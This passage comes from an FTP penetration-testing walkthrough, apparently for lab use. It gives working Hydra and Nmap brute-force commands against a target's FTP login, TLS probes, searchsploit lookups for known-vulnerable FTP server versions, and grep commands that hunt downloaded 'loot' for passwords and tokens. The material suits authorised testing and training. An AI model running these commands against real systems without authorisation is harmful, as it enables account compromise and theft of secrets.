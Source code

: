 ```
```
Note: Replace /etc/hostname with a harmless small file if needed.

7) Credential brute force (lab-safe; beware of lockouts):
Prepare wordlists:
```
# Ensure rockyou is decompressed if using Kali
[ -f /usr/share/wordlists/rockyou.txt ] || sudo gzip -d /usr/share/wordlists/rockyou.txt.gz 2>/dev/null || true
```
Hydra examples:
```
# Single user, large password list
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt -u -t 4 -f -o hydra_ftp_$TARGET.txt ftp://$TARGET

# User and password lists
hydra -L users.txt -P passwords.txt -u -t 4 -f -o hydra_ftp_$TARGET.txt ftp://$TARGET
```
Nmap ftp-brute alternative:
```
nmap -p21 --script ftp-brute --script-args userdb=users.txt,passdb=passwords.txt,ftp-brute.timeout=8s -oN nmap_ftp_brute_$TARGET.txt $TARGET
```

8) TLS/FTPS checks (explicit TLS on 21; implicit on 990):
```
nmap -p21,990 --script ssl-cert,ssl-enum-ciphers -oN nmap_ftp_tls_$TARGET.txt $TARGET
```
Manual STARTTLS probe:
```
openssl s_client -starttls ftp -connect $TARGET:21 -crlf </dev/null | sed -n '1,40p'
```
Implicit FTPS on 990:
```
openssl s_client -connect $TARGET:990 -crlf </dev/null | sed -n '1,40p'
```
List via curl requiring TLS (ignore cert issues for testing):
```
curl -k --ssl-reqd --user anonymous:anonymous "ftp://$TARGET/"
```

9) Version-based quick checks:
From your Nmap output, if you see for example:
- vsftpd 2.3.4:
```
searchsploit vsftpd 2.3.4
```
- ProFTPD 1.3.3c:
```
searchsploit proftpd 1.3.3c
```

10) Post-download triage (spot secrets quickly):
```
cd loot_$TARGET
find . -type f -iname "*.zip" -o -iname "*.bak" -o -iname "*.sql" -o -iname "*.conf" -o -iname "*config*" -o -iname "*backup*" -o -iname "*.txt"
grep -RiEn "password|passwd|secret|key|token|DB_|DB_PASS|user" .
file *
strings -n 8 suspicious_binary | head
```

